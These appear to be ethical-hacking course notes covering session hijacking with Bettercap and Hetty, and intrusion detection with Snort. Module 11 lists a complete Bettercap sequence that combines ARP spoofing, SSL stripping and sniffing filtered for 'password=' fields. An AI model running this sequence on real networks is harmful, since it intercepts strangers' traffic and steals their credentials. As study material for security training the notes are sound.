 - Wireshark
    - Yellow, black or blue packets (SYN, TCP, UDP, ARP, ECN, CWR)
----

# Module 11: Session Hijacking

## Intercept HTTP Traffic
- mitm / mitmweb

-  Bettercap (sniffing, arp spoof, net recon and more)
```bash
bettercap -iface interface
net.probe on
net.recon on
set http.proxy.sslstrip true
set arp.spoof.internal true
set arp.spoof.targets IPtarget
http.proxy on
arp.spoof on
net.sniff on
set net.sniff.regexp expresion
('.* password=.+')
```

- Hetty (Windows) - MIMT attack
```bash
click on it
http://localhost:8080
create new project
Chrome > Settings > System > Manual proxy > ON > IP and port 8080
```

----

# Module 12: Evading IDS, Firewalls and Honeypots

## Detect Intrusions

-suricata (IDS)

-  Snort (IDS)
```bash
cmd -> snort
List machine's physical address, IP and Ethernet Drivers:
	* `snort -W` 
Configuration file:
    * snort.conf
Start snort:
	* `snort -iX -A console -c C:\\Snort\\etc\\snort.conf -l C:\\Snort\\log -k ascii`
	* Replace X with your device index number
```

